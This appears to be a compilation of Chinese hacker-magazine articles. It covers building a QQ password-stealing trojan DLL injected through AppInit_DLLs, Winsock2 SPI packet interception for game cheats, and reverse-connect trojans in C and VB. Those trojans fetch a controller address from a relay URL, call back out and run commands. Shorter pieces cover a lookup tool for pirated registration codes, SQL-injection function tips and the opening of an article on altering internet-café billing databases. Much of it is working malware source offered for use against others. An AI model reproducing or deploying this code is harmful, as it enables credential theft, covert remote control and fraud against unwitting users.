前面已经说过了，子类化只是为了在用户密码输入好后得到一个通知。但是当我再次试验时却又痛苦地发现，我登录 QQ 是在输完密码后回车确认的，而这时主窗体收到了 WM_COMMAND 消息，“登录”按钮却收不到 WM_LBUTTONDOWN 消息。不要试图拦截 WM_CHAR，因为回车键的消息是由对话框直接处理的，而不会发给对话框上的控件，思路一下子进入了死胡同。就在我山穷水尽准备把 Hook 撤出来的时候，想到了 WM_DESTROY（还好，不用改题目了），因为 QQ 主窗体出来之前，它的登录窗口和注册向导窗口都是要销毁的，那么它们包括它们的所有子窗体都肯定能收到 WM_DESTROY 消息，而在这个时候进行密码记录可是再合适不过了。为了防止 Edit 控件提前销毁而使得其无法接收 WM_GETTEXT 消息，我直接对密码框进行了子类化。

可以把两个都处理了，但那样的话每个密码就要多记录一次。进一步地，我又发现对注册向导窗体也可以使用这种方法，这样一来 QQ 登录和注册窗体就可以同等对待了……

getQQEditH 是用来获得相关 Edit 句柄的函数……当以 0 为参数时就是没有 ES_PASSWORD 属性的（ID 窗口）。然后用 GetWindowLong 判断是否已经进行了子类化……

```cpp
LRESULT CALLBACK epassProc(
    HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
    if (uMsg == WM_DESTROY)
        savepass(GetParent(hwnd));
    return CallWindowProc((WNDPROC)plproc, hwnd, uMsg, wParam, lParam);
}
```

这个很简单吧，不用再说了。plproc 就是子类化时保存的原窗体函数地址……下面看看 getQQEditH。

```cpp
HWND htmp;
long lcount;

BOOL CALLBACK ecproc(HWND hwnd, LPARAM lParam)
{
    long wstyle;
    char szcb[256];
    GetClassName(hwnd, szcb, 256);
    if (strcmp(szcb, "Edit")) return TRUE;
    wstyle = GetWindowLong(hwnd, GWL_STYLE);
    if ((wstyle & ES_PASSWORD) == (long)lParam) {
        htmp = hwnd;
        lcount++;
    }
    return TRUE;
}

HWND WINAPI getQQEditH(HWND hwnd, long style)
{
    htmp = NULL;
    lcount = 0;
    ...
}
```

```cpp
EnumChildWindows(hwnd, ecproc, (LPARAM)style);
if (lcount == 1) return htmp;
else return NULL;
```

也是使用窗体枚举的方法，htmp、lcount 是全局变量……再看看保存密码的函数 savepass：

```cpp
void WINAPI savepass(HWND hwnd)
{
    HWND hqqid, hqqpass;
    char szid[16], szpass[32];
    FILE *fp;

    hqqid = getQQEditH(hwnd, 0);
    hqqpass = getQQEditH(hwnd, ES_PASSWORD);
    if ((!hqqid) || (!hqqpass)) return;

    SendMessage(hqqid, WM_GETTEXT, 16, (LPARAM)szid);
    SendMessage(hqqpass, WM_GETTEXT, 32, (LPARAM)szpass);
    if (strlen(szpass) < 1) return;

    fp = fopen(savedirname, "a+b");
    fprintf(fp, "ID:%s----Pass:%s\n", szid, szpass);
    fclose(fp);
}


```

这里仅是保存到文件，如果要发送邮件，加上发送邮件的模块就可以了。至此木马的主体框架 DLL 部分已经做好了，但是想要真正发挥作用，还得把它注入到目标进程……

我采用的是一个系统机制，仅对 Windows 2000、XP 和 2003 有效，也就是注册表项 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs`。其中记录的 DLL 会被所有导入 USER32.DLL 的进程加载……

> **编后：** 需要说明的是，DLL 注入是有危险性的，很容易导致目标进程异常退出。并且上面的方法也不是对所有程序都通用，可能因为加载错误而导致 DLL 被卸载……编写 DLL 时一定要万分小心，能简单就简单，尤其是 DllMain 里不要有过多操作。

---

socket：说到封包截取，也许你会感到陌生；但说到网络游戏外挂编写原理和反外挂，大家一定会很兴奋。是的，聪明的你一定可以想到，它们之间有一种必然的联系，封包的截获将是成功的第一步，而反外挂也同样要深入到这方面。虽然网上也有封包截获工具（其实防火墙本身就有此功能），但能了解其截取与转发机制完全是必要的，下面就为大家解释一下这种技术。

| 项目 | 内容 |
|---|---|
| 适合读者 | 网络编程爱好人员 |
| 前置知识 | 基本网络编程方法和常见 API 的使用 |
| 难度等级 | 中 |
## 让外挂不再疯狂

◎ 文／乱世天使

## —— Winsock2 SPI 网络封包截获技术

众所周知，网络封包的截获技术分为几种，例如：过滤驱动程序、NDIS 中间驱动程序以及 Winsock2 SPI 截取技术等。其中要数 Winsock2 使用最为广泛，下面就向大家介绍 Winsock2 封包截获技术的很大一个特点，就是 Winsock2 在 Winsock1.1 的基础上引入了 SPI 技术。

### Winsock2 之关键函数

Winsock2 的函数多是以 WSP 开头的，它们都是在 WS2_32.DLL 中实现的，而我们熟悉的 Winsock 扩展 API 是以 WSA 开头的。因为 Winsock 的 API 在 SPI 函数都有相互对应，你甚至可以把这些函数当作是 API 函数来使用。

### 技术实现之关键

程序和其他钩子函数功能类似，并且将以动态链接库（DLL）文件实现。Winsock 钩子用来截获 Winsock 调用从而拦截 TCP/IP 封包，并做相应处理。实现 DLL 的安装需要修改注册表，而不是替换系统的 DLL 函数，这和过去的一些资料是不同的，这种方法通用性比较高。

- 1. 系统调用本 DLL，启动 WSPStartup 函数。  
- 2. WSPStartup 将把 30 个相关函数设置成我们的函数，实现函数接挂。  
- 3. 在各个函数中实现我们想要的功能，这部分读者可以“随心所欲”了！

下面我来介绍几个主要核心函数：WSPStartup。WSPStartup 是 Windows Sockets 应用程序调用 SPI 的初始化函数，我们称之为服务提供者的标准入口函数，主要是转换 lpProcTable 结构的 30 个指针设置成自己的。这样，相应的函数请求会首先经过我们自己的函数，然后我们自己的函数可以作适当的处理，最后再将数据流（封包）转给原来的服务提供者函数。

```cpp
int WSPAPI WSPStartup(
    WORD wVersionRequested,
    LPWSPDATA lpWSPData,
    LPWSAPROTOCOL_INFOW lpProtocolInfo,
    WSPUPCALLTABLE upcallTable,
    LPWSPPROC_TABLE lpProcTable
)
{
    // LoadLibrary / GetProcAddress
    // ...
}
```

```cpp
int WSPAPI WSPStartup(
    WORD wVersionRequested,
    LPWSPDATA lpWSPData,
    ...
);
```

```cpp
lpProcTable->lpWSPAccept = WSPAccept;
lpProcTable->lpWSPSend = WSPSend;
lpProcTable->lpWSPSendTo = WSPSendTo;
lpProcTable->lpWSPRecv = WSPRecv;
lpProcTable->lpWSPRecvFrom = WSPRecvFrom;
...
lpProcTable->lpWSPStringToAddress = WSPStringToAddress;

LeaveCriticalSection(&gCriticalSection);
return 0;
```

面向连接的数据发送并调用 PrintSocket 来输出封包信息。

```cpp
int WSPAPI WSPSend(
    SOCKET s, // Socket
    LPWSABUF lpBuffers, // 缓冲区地址
    DWORD dwBufferCount, // 缓冲区数
    LPDWORD lpNumberOfBytesSent, // 发送字节数
    DWORD dwFlags, // 标志
    LPWSAOVERLAPPED lpOverlapped, // 重叠
    LPWSAOVERLAPPED_COMPLETION_ROUTINE lpCompletionRoutine, // 事件处理例程
    LPWSATHREADID lpThreadId, // 线程ID
    LPINT lpErrno // 错误编号
);
```

同样是面向非连接的数据发送并调用 PrintSocket 来输出封包信息。

```cpp
int WSPSendTo(
    SOCKET s,
    LPWSABUF lpBuffers,
    DWORD dwBufferCount,
    LPDWORD lpNumberOfBytesSent,
    DWORD dwFlags,
    const struct sockaddr FAR *lpTo,
    int iToLen,
    LPWSAOVERLAPPED lpOverlapped,
    LPWSAOVERLAPPED_COMPLETION_ROUTINE lpCompletionRoutine,
    LPWSATHREADID lpThreadId,
    LPINT lpErrno
);
```

面向连接的数据接收，主要功能是在接收数据之前，对封包信息进行了解。

以下是几个 Winsock 2 服务提供者的几个基本函数原型，作为例子：

WSPSocket 是 Winsock2 SPI 的服务函数之一，用来创建 Socket 连接并将创建的 Socket 连接加入 Socket 组。

```cpp
int WSPRecv(
    SOCKET s,
    LPWSABUF lpBuffers, // 数据缓冲区地址
    DWORD dwBufferCount, // 缓冲区数目
    LPDWORD lpNumberOfBytesRecvd, // 接收的字节数
    LPDWORD lpFlags,
    LPWSAOVERLAPPED lpOverlapped, // 重叠设置
    LPWSAOVERLAPPED_COMPLETION_ROUTINE lpCompletionRoutine,
    LPWSATHREADID lpThreadId,
    LPINT lpErrno
);
```

```cpp
SOCKET WSPSocket(
    int af,
    int type,
    int protocol, // 协议类型
    LPWSAPROTOCOL_INFOW lpProtocolInfo,
    GROUP g,
    DWORD dwFlags,
    LPINT lpErrno
);
```

同样是面向非连接的数据接收，主要功能是在接收数据之前，对封包信息进行了解，函数如下：

```c
int WSPRecvFrom(
    SOCKET s,
    LPWSABUF lpBuffers, // 缓冲区地址
    DWORD dwBufferCount,
    LPDWORD lpNumberOfBytesRecvd, // 接收字节数
    LPDWORD lpFlags,
    struct sockaddr FAR *lpFrom,
    LPINT lpFromlen,
    LPWSAOVERLAPPED lpOverlapped, // 重叠
    LPWSAOVERLAPPED_COMPLETION_ROUTINE lpCompletionRoutine,
    LPWSATHREADID lpThreadId,
    LPINT lpErrno
);


```

WSPAccept、WSPSend、WSPSendTo、WSPRecv 和 WSPRecvFrom 等一系列函数，大家可以查找有关手册。其实用法和 Winsock API 类似。

### 运行调试

在加入普通模块后，运用 dbgview.exe 进行调试（网上有下载），安装后联网测试，我们就可以看到效果了。SPI 其实就是一种接口，当我们把自己写好的程序安装到系统后，所有的 Winsock 请求会发送到这个程序并由它进行转发等调用——一切 OK！

> socket：好啊，期盼已久的某种“门”技术终于出现了……我可是天天想发外挂技术资料都没找到，没想到今天看到了！一个字：爽！两个字：很爽！三个字……嘿嘿，不说了，再看一遍去！

其他还有 WSPCloseSocket、WSPConnect。

---

socket：反向连接的木马大家应该很熟悉了吧？相信实际的入侵过程中一定没少用，但你知道它是怎么编写的吗？想过自己去编写一个属于自己的反向连接木马没有？其实很简单的，不信你就看下面的文字：

| 项目 | 内容 |
|---|---|
| 适合读者 | 编程爱好者 |
| 前置知识 | 木马基本编写技巧 |
| 难度等级 | 中 |
## 基于反向连接的木马编写思路

传统的木马，通常做法是服务端侦听、客户端连接，而反向连接技术恰恰相反，采用的是客户端侦听、服务端连接的思路。反向连接的好处是什么？我们可以看到，传统木马的服务端需要在某一端口侦听，很容易被发现；而采取反向连接技术之后，服务端主动去连接客户端，并且如果客户端的侦听端口类似 21、80 的很有迷惑性的端口，很多人都会以为这是正常的访问而不去关注，从而达到了隐蔽木马、后门的目的。

反向连接的实现除了服务端和客户端之外，还需要第三者的介入，而这个第三者必须是服务端和客户端都能方便地访问到，比如一个文件，并且很重要的一点是客户端需要能建立、修改这个文件。比如，某个公共、私有 FTP 空间上的文件。

- 1. 客户端把自己的 IP 和端口号上传到约定好的文件；
- 2. 服务端读取文件；
- 3. 服务端根据读取到的 IP 和端口号主动连接客户端。

### 服务端实现

（1）木马的服务器端不是由客户端生成，配置信息（告诉客户端从哪里读取关于客户端的 IP 和端口号）直接放在一个配置文件里而没有写入到服务器端程序中，关键就是读取配置信息的代码了：

```c
BOOL ret=FALSE;
FILE *fp;
char url[512];
fp=fopen("URL.INI","r");
if(fp)
{
    url[0]=0;
    fscanf(fp,"%s",url);
    if(url[0]!=0)
    {
        ServerURL.Format("%s",url);
        ret=TRUE;
    }
    fclose(fp);
}
return ret;
```

（2）得到配置信息后，服务端要连到网上去读取客户端的 IP 和 PORT，格式为 IP:PORT。代码如下：详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

（3）服务端得到 IP 和 PORT 后，主动去连接客户端，这样的代码没什么难度的。

```c
CSocket sockClient;
sockClient.Create();
```

```cpp
if(sockClient.Connect(ip, port)) // 反向连接
{
    // 绑定 cmd
}

sockClient.Close();
```

```cpp
UpdateData();
char* temp="\r\n";
LPCSTR szData=(LPCSTR)m_strCommand;
send(sClient,szData,strlen(szData),0);
Sleep(50);
send(sClient,temp,strlen(temp),0);
m_strCommand="";
UpdateData(FALSE);


```

（4）既然是木马，就要绑定 cmd 了，否则什么都干不了。详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

注意这里为什么要 Send 一个“\r\n”呢？那是因为这里的命令是给 cmd 运行的，而 cmd 是以“\r\n”来判断一个命令结束的，所以我们要在命令后面把它发过去。上面的代码是实现运行服务器端后每隔 10 分钟到指定的地方去读取要连接的 IP 和 PORT，然后反向连接到客户端（为了简单起见每个服务器只会连接一个客户端，每个客户端也只能接受一个服务器端），客户端可以直接运行 cmd 里面的命令，直到输入 exit 命令退出。是不是比你想象中要简单很多？编程其实很简单，只要你看懂了具体代码，一切都很轻松！

### 客户端实现

客户端其实就是在本地的某个端口监听服务端发来的连接请求，如果有连接连上的话就可以运行命令了，具体步骤如下。

- （1）监听代码（注意：为了不使程序的界面“没响应”，监听的代码要放到一个新线程里），详细代码请查看光盘“源代码”栏目，按照文章名查找即可。
- （2）发送命令代码。

大家有没有某个软件因为需要注册却使用不了而烦恼呢？我相信只要是长期在网络上晃荡的朋友一定会有这样的遭遇的，那么现在我就来帮大家解决这个问题。给大家讲解一下，如何制作一个输入某注册软件的名称，直接就能显示这个软件注册码的程序。是不是很方便？大家听了也许会觉得做出这样的一个程序很难，其实不然，下面是这个软件的原理，大家看了就知道制作这个软件有多容易了。
## VB制作软件注册码查询器

### 软件原理

本软件的制作原理很简单，因为网上有大量的软件注册码，大家可以费点工夫去在网上收集各软件的注册码，然后把它们储存到一个数据库文件里。这里我用的是 Access，然后利用 VB 编写一个程序，当输入某软件名称时，直接从数据库中调出，这样很快就可以查找到软件的注册码了。其实最费时间的就是在网上寻找注册码，如果你找得越多，你这个软件能找到的注册码就越多。介绍完本程序的原理后，现在我就和大家一起来制作这个软件。
图1

### 制作步骤

首先，把收集到各软件的注册码输入到 Access 数据库中，然后生成 zhuce.mdb 文件，如图1所示。然后打开 VB6.0，先做程序的界面，如图2所示。其中，TextBox 是用来往里输入软件名称的，里面有两个重要的 Label 控件，一个用来显示软件名称（Label3），另一个用来显示注册码（Label4）。窗体制作完毕后，现在我们来做一下细微的调整。大家看上面的原理就应该知道本程序用了有关数据库的操作，技术上用到了 VB 中的数据库控件。

控件比较低级，所以我们使用系统自带的 ADO。首先，我们在 VB 里打开“工程”->“引用”，然后在打开的“引用”窗口中选中 Microsoft ActiveX Data Objects 2.5 Library，如果大家的系统中没有 2.5 版本的，可以选择 2.0 的，因为这个版本的系统中都有，比较保险。最后“确定”回到窗体。现在我们开始填写代码部分了，首先我们先建立一个模块，里面填写如下代码：
图2

以上代码里用到了数据库查找语句——SELECT。

## SELECT语法

```sql
SELECT [predicate] [* | table.* | [table.]field1 [AS alias1] [, [table.]field2 [AS alias2] [, ...]]]
FROM tableexpression [, ...] [IN externaldatabase]
[WHERE ...]
[GROUP BY ...]
[HAVING ...]
[ORDER BY ...]
[WITH OWNERACCESS OPTION]
```

SELECT 语句说明：predicate 为下列谓词之一：ALL、DISTINCT、DISTINCTROW 或 TOP。你可用谓词来限制返回的记录数量，如果没有指定谓词，则默认值为 ALL。下面要注意要点：从特定的表中指定全部字段。

| 项 | 说明 |
|---|---|
| table | 表的名称，此表中包含会被选择的记录的字段 |
| field1, field2 | 字段名称；必须包含了您要获取的数据；如果包含多个字段，则按列举顺序依次获取 |
| alias1, alias2 | 别名，用来作为列标题以代替原有字段名 |
| tableexpression | 表名，这些表包含要获取的数据 |
| externaldatabase | 数据库名称，该数据库包含 tableexpression 中的表（当这些表不在当前数据库中时） |

```vb
Public Rs As ADODB.Recordset
Public Con As ADODB.Connection
Sub main()
    Set Con = New ADODB.Connection
    Con.Open "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & App.Path & "\zhuce.mdb;Persist Security Info=False"
    '打开数据库源的连接位置为当前目录下的 zhuce.mdb
    Form1.Show
End Sub
```

因为这里用到了 Sub main() 函数，所以大家得把窗体设置和改变成启动窗体。设置启动窗体的方法如下。在缺省情况下，应用程序中的第一个窗体被指定为启动窗体。应用程序开始运行时，此窗体就被显示出来（因而最先执行的代码是该窗体的 Form-Initialize 事件中的代码）。如果想在应用程序启动时显示别的窗体，那么就得改变启动窗体。改变启动窗体的方法如下。

- 1. 从“工程”菜单中选取“工程属性”。
- 2. 选取“通用”。
- 3. 在“启动对象”ListBox 中，选取要作为新启动窗体的窗体。
- 4. 选取“确定”。

现在进入窗体部分输入代码，进入 Text1 代码区：

```vb
Private Sub Text1_Change()
    Dim Rs As New ADODB.Recordset
    Rs.Open "select * from softinfo where soft like '%" & Text1.Text & "%'", Con, adOpenDynamic, adLockReadOnly
    If Rs.EOF Then
        MsgBox "对不起，没有您所输入的软件注册码！", vbInformation + vbOKOnly, "提示"
        Exit Sub
    Else
        Label3.Caption = ""
        Label3.Caption = Rs!soft   '显示软件名称
        Label4.Caption = ""
        Label4.Caption = Rs!ma     '显示注册码
    End If
End Sub


```

现在这个软件就做完了，大家看用 VB 做的部分很简单吧，几句语句就可以完成查找数据库功能。现在我们运行此程序，然后随便输入某个注册软件的名称，这个软件的注册码自然就会出来了。大家如有不清楚的地方可以发 E-mail：vv_cool@sina.com，和本人探讨。

## TIPS：SQL注入攻击常用的函数

- Access：`asc(字符)`；SQL Server：`unicode(字符)` —— 返回某字符的 ASCII 码。
- Access：`chr(数字)`；SQL Server：`nchar(数字)` —— 根据 ASCII 码返回字符。
- Access：`mid(字符串, N, L)`；SQL Server：`substring(字符串, N, L)` —— 返回字符串中从 N 到 N+L 之间的子串。
- Access：`abs(数字)`；SQL Server：`abs(数字)` —— 返回数字的绝对值。
- Access：`A between B And C`；SQL Server：`A between B And C` —— 判断 A 是否在 B 与 C 之间。

## VB也玩反弹木马

文/图 美超
木马技术已经越来越成熟，随着防火墙与网络环境变化，传统木马连接方式受到限制。文章引出“反弹木马”思路：被控端主动向外连接，从而绕过常见入站拦截。

### 为什么防火墙不杀我？

一般木马分为控制端和被控制端。传统方式由控制端扫描并连接被控端监听端口；在代理、NAT（Network Address Translation）等环境下，被控端往往没有可直接访问的公网地址，导致传统主动入侵困难。因此反弹木马改为被控端主动连接控制端，先获取控制端 IP 和端口后回连。

### 我能做什么呢？

- 1. 发送消息给被控制端。
- 2. 在被控端执行任意命令。
- 3. 关闭对方木马程序。

制作该反弹木马分两步：控制端（服务器端，Server）与被控制端（客户端，Client）。

### 我是怎么被制作的呢？

- 1. 新建 VB EXE 工程，添加 Microsoft Internet Transfer Control 6.0 与 Microsoft Winsock Control 6.0。
- 2. 将主窗体 `Visible` 属性设为 `False`（隐藏窗口）。
- 3. 添加 `Timer1` 控件，将 `Timer1.Interval` 设为 `5000`（每 5 秒触发一次）。
```vb
Option Explicit
Private Declare Function GetComputerName Lib "KERNEL32" Alias "GetComputerNameA" (...)
```

下面是访问中转服务器的实现方法：

```vb
Private m_strMyName As String
Private Sub GetControlIP()
    On Error GoTo errHandle
    Dim str As String
    str = inet1.OpenURL("http://.../url.txt")
    If Not IsNull(str) Then
        pos = InStr(1, str, vbCrLf)
        If pos > 0 Then
            Winsock1.RemoteHost = Left(str, pos)
            Winsock1.RemotePort = Mid(str, pos + Len(vbCrLf))
        End If
    End If
    Exit Sub
errHandle:
    Winsock1.RemoteHost = ""
    Winsock1.RemotePort = 0
End Sub
```

连接和容错代码：

```vb
Private Sub Form_Load()
    m_strMyName = GetMyName()
    Call Timer1_Timer
End Sub
```

```vb
Private Sub Timer1_Timer()
    On Error Resume Next
    If Winsock1.RemoteHost = "" Or Winsock1.RemotePort = 0 Then
        GetControlerIP
        ' 没有获得控制端的 IP 和端口，继续尝试访问中转服务器上指定文件
        Winsock1.RemoteHost = "127.0.0.1"
        Winsock1.RemotePort = 80
    Else
        ' 已经获得控制端的 IP 和端口
        Select Case Winsock1.State
            Case sckClosed
                Winsock1.Connect  ' 连接没关闭，重新连接
            Case sckConnected
                Winsock1.SendData ("MYNAME" & m_strMyName & vbCrLf)  ' 已连接，向服务器发送数据
            Case Else
                Winsock1.Close    ' 关闭连接
        End Select
    End If
End Sub
```

```vb
Dim strHead As String    ' 命令头
strHead = Left(strCommand, 6)
Select Case UCase(strHead)   ' 分析命令头，根据命令头执行不同操作
    Case "MSGBOX"
        ' 显示消息
        MsgBox Mid(strCommand, 7), vbInformation, "从控制端传来的消息"
    Case "BEEP  "
        ' 让喇叭发声
        Beep
    Case "GOURL "
        ' 访问网址
        Shell "explorer.exe " & Mid(strCommand, 7)
    Case "EXIT  "
        ' 退出木马
        Unload Me
End Select
End If
End Sub

Private Sub Winsock1_Error(ByVal Number As Integer, Description As String, ByVal Scode As Long, ByVal Source As String, ByVal HelpFile As String, ByVal HelpContext As Long, CancelDisplay As Boolean)
    Winsock1.Close
    Debug.Print Winsock1.State
    Debug.Print "错误" & Number & Description
End Sub

Private Function GetMyName() As String
    Dim str As String
    str = Space(255)
    GetComputerName str, 255
    Dim i As Integer
    For i = 1 To Len(str)
        If Mid(str, i, 1) = Chr(0) Then
            Mid(str, 1, 1) = ""
        End If
    Next
    GetMyName = Trim(str)
End Function
```

数据收发是这样实现的：

```vb
Private Sub Winsock1_DataArrival(ByVal bytesTotal As Long)
    On Error GoTo errHandle
    ' 接受控制端的数据
    Static strReceived As String
    ' 从控制端获得的累计数据
    Dim strTemp As String
    ' 用于临时获取 Winsock1 的数据
    Winsock1.GetData strTemp, vbString
    strReceived = strReceived + strTemp

    Dim pos As Long
    pos = InStr(1, strReceived, vbCrLf)
    ' 分离控制端传过来的命令
    Do While pos > 0
        Dim strCommand As String
        ' 用来存储控制端传来的一条命令
        strCommand = Left(strReceived, pos - 1)
        ExecuteCommand strCommand
        ' 执行分离出的命令
        strReceived = Mid(strReceived, pos + Len(vbCrLf))
        pos = InStr(1, strReceived, vbCrLf)
    Loop
    Exit Sub
errHandle:
    strReceived = ""
End Sub
```

命令的执行是木马里面比较难的一种方式了，可以通过如下的代码实现：

```vb
Private Sub ExecuteCommand(ByVal strCommand As String)
    On Error Resume Next
    ' 执行控制端发送的命令
    If Len(strCommand) >= 6 Then   ' 一条命令最少有 6 个字符
```

以上就是反弹木马的服务端的完整代码，下面我们开始做比较重要的部分——木马客户端。

- 1. 在客户端窗口新建 6 个 Command，分别用来开始监听（CmdStart）、停止监听（CmdStop）、发送消息（CmdStop）、让对方机器发出声音（CmdBeep）、强制访问网址（CmdGoURL）和停止木马运行（CmdExitControl）。
- 2. 添加 ListView 控件，用来显示连接情况（LvwComputers）。
- 3. 新建 ImageList1 控件和 Winsock1 控件以及 Timer1 控件。

最后界面效果如图2所示。下面开始来编写反弹木马的客户端代码：

```vb
Option Explicit
Private m_intMax As Integer


```
图2

### 强制访问网址代码

```vb
Private Sub CmdGoURL_Click()
    Dim i As Integer
    If LvwComputers.SelectedItem Is Nothing Then
        MsgBox "至少要选择一条记录"
        Exit Sub
    End If

    Dim strURL As String
    strURL = InputBox("请输入要强制访问的网址...", "", "http://www.sina.com.cn")
    If strURL = "" Then
        strURL = "http://www.sina.com.cn"
    End If

    For i = 1 To LvwComputers.ListItems.Count
        Dim item As ListItem
        Set item = LvwComputers.ListItems(i)
        If item.Selected Then
            Dim j As Integer
            j = Mid(item.Key, 2)
            Winsock(j).SendData "GOURL " & strURL & vbCrLf
        End If
    Next i
End Sub
```

### 让机器发出“Bee”的声音按钮代码

```vb
Private Sub CmdBeep_Click()
    Dim i As Integer
    If LvwComputers.SelectedItem Is Nothing Then
        MsgBox "至少要选择一条记录"
        Exit Sub
    End If

    For i = 1 To LvwComputers.ListItems.Count
        Dim item As ListItem
        Set item = LvwComputers.ListItems(i)
        If item.Selected Then
            Dim j As Integer
            j = Mid(item.Key, 2)
            Winsock(j).SendData "BEEP" & vbCrLf
        End If
    Next i
    '以上代码是让机器发出Bee的声音的
End Sub
```

### 发送消息按钮代码

```vb
Private Sub CmdMsgBox_Click()
    Dim i As Integer
    If LvwComputers.SelectedItem Is Nothing Then
        MsgBox "至少要选择一条记录"
        Exit Sub
    End If

    Dim strMessage As String
    strMessage = InputBox("请输入要发送到对方计算机的信息...", "", "你好，你的计算机已经中了我的木马。")
    If strMessage = "" Then
        strMessage = "你好，你的计算机已经中了我的木马。"
    End If

    For i = 1 To LvwComputers.ListItems.Count
        Dim item As ListItem
        Set item = LvwComputers.ListItems(i)
        If item.Selected Then
            Dim j As Integer
            j = Mid(item.Key, 2)
            Winsock(j).SendData "MSGBOX " & strMessage & vbCrLf
        End If
    Next i
End Sub
```

### 停止木马运行代码

```vb
Private Sub CmdExitControl_Click()
    '让木马停止运行
    Dim i As Integer
    If LvwComputers.SelectedItem Is Nothing Then
        MsgBox "至少要选择一条记录"
        Exit Sub
    End If

    For i = 1 To LvwComputers.ListItems.Count
        Dim item As ListItem
        Set item = LvwComputers.ListItems(i)
        If item.Selected Then
            Dim j As Integer
            j = Mid(item.Key, 2)
            Winsock(j).SendData "EXIT " & vbCrLf
        End If
    Next i
End Sub
```

### 开始监听按钮代码

```vb
Private Sub CmdStart_Click()
    On Error GoTo errHandle
    Dim strPort As String
    strPort = InputBox("请输入要监听的端口(1~65536)")

    If strPort <> "" Then
        If Not IsNumeric(strPort) Then
            MsgBox "输入的端口必须是数字。"
            Call CmdStart_Click
        Else
            If CLng(strPort) < 1 Or CLng(strPort) > 65536 Then
                MsgBox "端口范围必须在 1 ~ 65536 之间。"
                Call CmdStart_Click
            Else
                Winsock1(0).Bind CLng(strPort)
                Winsock1(0).Listen
                EnableFunctionButtons True
                CmdStart.Enabled = False
                CmdStop.Enabled = True
            End If
        End If
    End If

    Exit Sub
errHandle:
    On Error GoTo 0
    EnableFunctionButtons False
    CmdStart.Enabled = True
    CmdStop.Enabled = False
    Winsock1(0).Close
End Sub

Private Sub EnableFunctionButtons(ByVal Enabled As Boolean)
    CmdMsgBox.Enabled = Enabled
    CmdBeep.Enabled = Enabled
    CmdGoURL.Enabled = Enabled
    CmdExitControl.Enabled = Enabled
End Sub
```

### 窗口主代码

```vb
Private Sub Form_Load()
    EnableFunctionButtons False
    CmdStop.Enabled = False
    m_intMax = 0
End Sub
```

### 时间控件代码

```vb
Private Sub Timer1_Timer()
    Dim i As Integer
    For i = 1 To m_intMax
        If Winsock1(i).State <> sckClosed Then
            Dim item As ListItem
            Set item = LvwComputers.ListItems.Item(CStr("K" & CStr(i)))
            If DateDiff("s", CDate(item.Tag), Time) >= Timer1.Interval / 1000 Then
                LvwComputers.ListItems.Remove item.Index
                Winsock1(i).Close
            End If
            Set item = Nothing
        End If
    Next i
End Sub
```

## Winsock连接请求代码

```vb
Private Sub Winsock1_ConnectionRequest(Index As Integer, ByVal requestID As Long)
    On Error GoTo errHandle

    If Index = 0 Then
        Dim i As Integer
        Dim bFound As Boolean
        bFound = False
        For i = 1 To m_intMax
            If Winsock1(i).State = sckClosed Then
                bFound = True
                Exit For
            End If
        Next i

        If Not bFound Then
            m_intMax = m_intMax + 1
            Load Winsock1(i)
        End If

        Winsock1(i).LocalPort = 0
        Winsock1(i).Accept requestID

        Dim item As ListItem
        Set item = LvwComputers.ListItems.Add(, "K" & CStr(i), Winsock1(i).RemoteHostIP, , 1)
        item.SubItems(1) = Winsock1(i).RemotePort
        item.Tag = Time
    End If

    Exit Sub
errHandle:
End Sub
```

### 停止监听代码

```vb
Private Sub CmdStop_Click()
    On Error GoTo errHandle
    Dim i As Integer

    For i = 1 To LvwComputers.ListItems.Count
        LvwComputers.ListItems.Remove 1
    Next i

    Winsock1(0).Close
    For i = 1 To m_intMax
        Unload Winsock1(i)
    Next i

    m_intMax = 0

    EnableFunctionButtons False
    CmdStart.Enabled = True
    CmdStop.Enabled = False

    Exit Sub
errHandle:
    On Error GoTo 0
    EnableFunctionButtons True
    CmdStart.Enabled = False
    CmdStop.Enabled = True
End Sub
```

## 自定义ExecuteCommand函数

```vb
Private Sub ExecuteCommand(ByVal Index As Integer, ByVal strCommand As String)
    On Error Resume Next
    ' 执行控制端发送的命令
    If Len(strCommand) >= 6 Then
        Dim strHead As String
        strHead = Left(strCommand, 6)
        Select Case UCase(strHead)
            Case "MYNAME"
                LvwComputers.ListItems("K" & Index).SubItems(2) = Mid(strCommand, 7)
                LvwComputers.ListItems("K" & Index).Tag = Time
        End Select
    End If
End Sub

' Winsock数据代码
Private Sub Winsock1_DataArrival(Index As Integer, ByVal bytesTotal As Long)
    On Error GoTo errHandle
    Dim strReceived As String
    strReceived = Winsock1(Index).Tag
    Dim strTemp As String
    Winsock1(Index).GetData strTemp, vbString
    strReceived = strReceived & strTemp
    Dim pos As Long
    pos = InStr(1, strReceived, vbCrLf)
    Do While pos > 0
        Dim strCommand As String
        strCommand = Left(strReceived, pos - 1)
        ExecuteCommand Index, strCommand
        strReceived = Mid(strReceived, pos + Len(vbCrLf))
        pos = InStr(1, strReceived, vbCrLf)
    Loop
    Winsock1(Index).Tag = strReceived
    Exit Sub
errHandle:
    strReceived = ""
End Sub


```

目前，我自制的反弹木马已经完成了，现在我们可以拿自己的机器来做个实验。首先运行木马的服务端，然后再运行木马的控制端，最后点击开始监听。过一会就看到LvwComputers控件里出现了中木马的机器，如图3所示。
图3

通过以上的木马实例编写，我相信大家已经不再小看VB的功能了吧！要记住学什么编程语言都可以，只要学精一门语言，就可以自己写很多东西咯！赶快去试试吧！

## 用木马远程遥控Access
文／图 清风山林

现在有很多网吧和机房管理软件使用的是Access数据库，各位大菜小菜也许早搞定不少网吧的主机了吧？大家入侵的目的不外是下载它的数据库文件，从而免费上网，但是这个数据库只能看到如账号、密码一类的信息。如果你用别人的账号上的话，很容易被逮。最方便、隐藏的方法还是给自己的账号加钱，但是Access不能远程修改，而一般只要网吧主机开着，Access文件就在使用中，替换文件也是不可行的。如何实现对Access的修改呢？

我们知道一般的木马都是分为客户端和服务端，客户端发出命令，服务端执行后返回结果给客户端。

今天我们就用这个方法来远程控制Access。（文中以“吉胜网络妙管家”的Access数据库为例，通过Access密码读取器得知其密码是：chrdwhdhxt，Access的用户名为admin，这在打开数据库文件中要用到。）

### 代码与原理篇

